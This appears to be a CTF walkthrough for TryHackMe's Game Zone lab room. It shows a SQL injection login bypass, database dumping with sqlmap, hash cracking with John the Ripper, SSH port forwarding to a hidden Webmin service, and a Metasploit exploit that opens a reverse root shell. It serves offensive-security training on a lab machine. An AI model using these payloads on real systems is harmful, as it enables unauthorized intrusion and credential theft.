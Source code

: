 ```yaml
---
title: "TryHackMe's Game Zone Room"
published: true
---
```


# TryHackMe's Game Zone Room

<https://tryhackme.com/r/room/gamezone>

## Introduction

The Game Zone room on TryHackMe presents a learning experience for aspiring ethical hackers, simulating a real-world scenario of web application exploitation. This post will guide you through the key stages of the attack, from initial access to escalating privileges, showcasing practical techniques using tools like SQL injection, password cracking, and service exploitation.

Whether you're sharpening your pentesting skills or just getting started, this guide will help you understand the critical steps in compromising a vulnerable system, using the Game Zone room as a training ground. Let's dive in!

## Initial access

The room provides a web application at http://10.10.218.195/, we will login leveraging a sql injection vulnerability.
When a user tries to login the database receives a query similar to this:  
**SELECT \* FROM users WHERE username = :username AND password := password**  
We will use `' or 1=1 -- -` as the username and a empty password, so the query will look like this:  
**SELECT \* FROM users WHERE username = '' or 1=1 -- - AND password =**  
effectively becoming **SELECT \* FROM users WHERE username = '' or 1=1**  
The `'` closes username string and `-- -` is used to comment out what comes after it.  
The `1=1` forces the where clause to evaluate to true, this way we will login with the first user returned by the query.  
This allows us to login even if we don't know any valid username and if the classic 'admin' username is not present.

Next we will use **sqlmap** to dump the database.  
After logging in we reach a page with a search feature, type anything in the search box and capture the request with Burp.

![](../assets/images/tryhackme/offensive_pentesting/gamezone/webpage.png)

![](../assets/images/tryhackme/offensive_pentesting/gamezone/capture.png)

Then we save the request to a file.

![](../assets/images/tryhackme/offensive_pentesting/gamezone/capture2.png)

The following command uses our authenticated session, thanks to the request file, to detect vulnerabilities in order to dump the database.

```bash
root@ip-10-10-112-239:~/Downloads# sqlmap -r request.txt --dbms=mysql --dump
```

## Password cracking

In the database we obtained in the previous step there is a single user, we will use **John the Ripper** to crack the password hash of that user.  
Save the hash to a file (or use the file auto-generated by sqlmap) and run the following command.

```bash
john /tmp/sqlmapqflBjq6922/sqlmaphashes-7mItrA.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

Once you get the password, use it to ssh to the target machine:

```bash
root@ip-10-10-112-239:~/Downloads# ssh agent47@10.10.218.195
The authenticity of host '10.10.218.195 (10.10.218.195)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.218.195' (ECDSA) to the list of known hosts.
agent47@10.10.218.195's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ whoami
agent47
```

Proceed to find the user flag

```bash
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt
[REDACTED]
```

## Exposing services

Looking for active services on the target machine we find an interesting one running on port 10000.

```bash
agent47@gamezone:~$  ss -tulpn
Netid State      Recv-Q Send-Q                                     Local Address:Port                                                    Peer Address:Port
udp   UNCONN     0      0                                                      *:68                                                                 *:*
udp   UNCONN     0      0                                                      *:10000                                                              *:*
tcp   LISTEN     0      80                                             127.0.0.1:3306                                                               *:*
tcp   LISTEN     0      128                                                    *:10000                                                              *:*
tcp   LISTEN     0      128                                                    *:22                                                                 *:*
tcp   LISTEN     0      128                                                   :::80                                                                :::*
tcp   LISTEN     0      128                                                   :::22                                                                :::*
```

Unfortunately this service is not directly accessible from our local machine, probably due to a firewall restricting access from the outside.  
Luckily we can get around the restriction with a nice trick: we use reverse ssh port forwarding.  
In particular, we will use **local port forwarding**: it allows a local computer (the client) to forward traffic to a remote server (through an SSH connection), making it seem as if the remote service is running on the local machine.

```bash
root@ip-10-10-112-239:~/Downloads# ssh -L 10000:localhost:10000 agent47@10.10.218.195
agent47@10.10.218.195's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Sun Oct 13 05:06:08 2024 from 10.10.112.239
```

Let's break down the previous command:  
`-L` stands for local port forwarding  
`10000:localhost:10000` means that all traffic sent to the port 10000 of the localhost will be forwarded to the port 10000 of the remote machine, via the ssh tunnel

Now we can access the remote service on localhost, as if it was running locally.

![](../assets/images/tryhackme/offensive_pentesting/gamezone/exposed.png)

The service is a CMS, we can use the credentials found previously to log in.  
Once we are logged in we can easily find the CMS version.

If we did not have valid credentials we could have used nmap to find the CMS version.

```bash
root@ip-10-10-112-239:~/Downloads# nmap -sV -p 10000 localhost

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-13 11:40 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000052s latency).
Other addresses for localhost (not scanned): ::1

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.580 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.14 seconds
```

## Privilege escalation

Using the CMS version we can find a metasploit exploit that will elevate our privileges to root.

```bash
msf6 > search webmin 1.580

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
```

Let's configure it:

```bash
msf6 > use 0
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD [REDACTED]
PASSWORD => [REDACTED]
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
USERNAME => agent47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST 10.10.112.239
LHOST => 10.10.112.239
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
```

As you can notice in this case the remote host is configured to be 127.0.0.1, because we access the service via our local ssh tunnel.  
Let's run the exploit.

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.10.112.239:4444
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Payload executed successfully
[*] Command: echo L5KJMMxnzUHRKmdf;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "L5KJMMxnzUHRKmdf\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.112.239:4444 -> 10.10.218.195:59412) at 2024-10-13 12:12:40 +0100

whoami
root
```

We now have root access and can retrieve the root flag.

```bash
cd /root
ls
root.txt
cat root.txt
[REDACTED]
```

That's it for this room, see you in the next one.  
Happy hacking!
